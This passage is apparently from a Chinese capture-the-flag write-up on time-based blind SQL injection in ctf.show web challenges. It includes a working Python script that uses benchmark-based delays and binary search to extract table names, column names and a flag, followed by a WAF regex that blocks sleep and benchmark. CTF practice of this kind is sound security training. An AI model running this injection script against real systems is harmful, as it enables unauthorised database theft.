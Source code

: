 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1639590432313-5d8ded0b-d8f8-4629-8766-1e509e552064.png)
所以我们可以控制参数来控制页面响应时间，经过测试，这个题需要benchmark(100000000/2,1)，这样的回显大概是2s左右，然后判断还是大于1s，当然也可以让响应时间更短一点，接近于1s更好，但是这样容易产生误差，所以我设置在了2s左右，接下来就是常规的爆数据库、表名、字段

```python
'''
Author: KonDream
Date: 2021-12-16 01:33:25
LastEditors:  KonDream
LastEditTime: 2021-12-16 01:50:45
Description:  
'''
from datetime import date
import requests

url = "http://81c3c844-1a05-49e8-8af8-90ffe70f5c53.challenge.ctf.show/api/index.php"

flag = 'ctfshow{' 
# 爆数据库名 ctfshow_flagxccb,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxccb'"
# 爆字段
payload = "select flagaabc from ctfshow_flagxccb"


for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ascii(substr(({}), {}, 1)) > {}, benchmark(100000000/2,1), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间
        # print(r)
        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web218（时间盲注）
```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark/i',$str);
    }   
```
过滤了benchmark，思想还是一样的，就是查询大量数据以拖慢查询速度，这里使用join